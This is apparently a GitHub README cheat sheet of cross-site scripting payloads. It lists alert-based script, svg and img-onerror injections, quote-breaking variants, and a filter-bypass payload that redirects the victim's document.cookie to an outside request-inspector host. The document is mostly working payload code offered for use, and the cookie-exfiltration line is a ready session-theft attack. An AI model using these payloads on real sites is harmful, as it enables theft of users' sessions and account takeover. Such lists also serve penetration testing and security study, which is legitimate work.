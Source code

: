 Here im gonna present you some `XSS payloads`,if you want to learn what is a XSS injection,go and check out Ruulian work --> https://0xhorizon.eu/articles/xss/

## Basic Payloads:

```html
<script>alert(1)</script>
```

```html
<Svg OnLoad=alert(1)>
```

```html
<img src="" onerror="alert()">
```


## Bypass common filter

### Bypass http/https filter

Change your Payload like this:
```html
 - <script>document.location='https://requestinspector.com/p/xxxxxxxxxxxxxxxxxxxxxxxxxx?cookie='+document.cookie</script>

 + <script>document.location='//requestinspector.com/p/xxxxxxxxxxxxxxxxxxxxxxxxxx?cookie='+document.cookie</script>
```

## Some Payloads

```html
'-alert(1)-'

'-alert(1)//
```
